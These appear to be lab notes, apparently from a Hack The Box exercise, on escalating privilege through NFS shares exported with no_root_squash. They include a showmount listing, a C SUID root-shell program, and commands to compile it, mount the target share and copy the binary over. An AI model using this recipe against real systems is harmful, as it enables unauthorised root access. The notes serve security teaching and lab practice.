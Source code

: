 # Weak NFS Privileges
Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.
```
dostonbek@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```
**NFS Option**
## root_squash
If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set.

## no_root_squash
Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.

# Tip
We can create malicious .c file to get root via nfs shares:
```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
To compile: `gcc shell.c -o shell`

Using following command we can create mount folder for targets nfs share:
```bash
sudo mount -t nfs 10.129.2.12:/tmp /mnt
```
Then we can copy malicious file to `/mnt` directory which is mounted for targets `/tmp` directory.

## Status of NFS shares:
```bash
cat /etc/exports
```

```
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)```
